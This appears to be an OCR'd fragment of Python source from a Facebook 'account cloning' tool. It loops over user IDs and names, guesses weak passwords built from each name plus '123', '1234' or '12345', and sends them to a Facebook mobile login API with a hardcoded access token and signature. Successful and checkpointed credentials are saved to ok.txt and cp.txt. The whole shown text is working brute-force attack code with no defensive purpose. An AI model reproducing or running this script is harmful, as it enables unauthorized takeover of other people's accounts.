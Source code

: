 	elif select =="0":
		menu()
	else:
		print ("[!] Please Select a Valid Option")
		crack2()
	print("\033[1;97m[+]\033[1;97m Total IDs :\033[1;97m "+str(len(id)))
	print("\033[1;97m[+]\033[1;97m Plz wait clone account will be appear here\033[1;0m")
	print("\033[1;97m--------------------------------------------------")
	
	
        def main(arg):
		user=arg
		uid,name=user.split("|")
		try:
		    pass1=name+"123"
		    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		    d=json.loads(q)
		    if 'www.facebook.com' in d['error_msg']:
		        print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass1+"\x1b[1;91m | \x1b[1;97m"+name)
		        cp=open("cp.txt","a")
		        cp.write(uid+" | "+pass1+"\n")
		        cp.close()
		        cps.append(uid)
		    else:
		    	if "access_token" in d:
		            print("\t\x1b[1;92m[Successfull] "+uid+" | "+pass1+" | "+name)
		            ok=open("ok.txt","a")
		            ok.write(uid+" | "+pass1+"\n")
		            ok.close()
		            oks.append(uid)
		        else:
		            pass2=name+"1234"
		            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		            d=json.loads(q)
		            if 'www.facebook.com' in d['error_msg']:
		                print("\x1b[1;97m[\x1b[1;93mCheckPoint\x1b[1;97m]\x1b[1;97m "+uid+"\x1b[1;91m | \x1b[1;97m"+pass2+"\x1b[1;91m | \x1b[1;97m"+name)
		                cp=open("cp.txt","a")
		                cp.write(uid+" | "+pass2+"\n")
		                cp.close()
		                cps.append(uid)
		            else:
		                if 'access_token' in d:
		                    print("\t\x1b[1;92m[Successfull] "+uid+" | "+pass2+" | "+name)
		                    ok=open("ok.txt","a")
		                    ok.write(uid+" | "+pass2+"\n")
		                    ok.close()
		                    oks.append(uid)
		                else:
		                    pass3=name+"12345"
		                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text
		                    d=json.loads(q)
		                    if 'www.facebook.com' in d['error_msg']: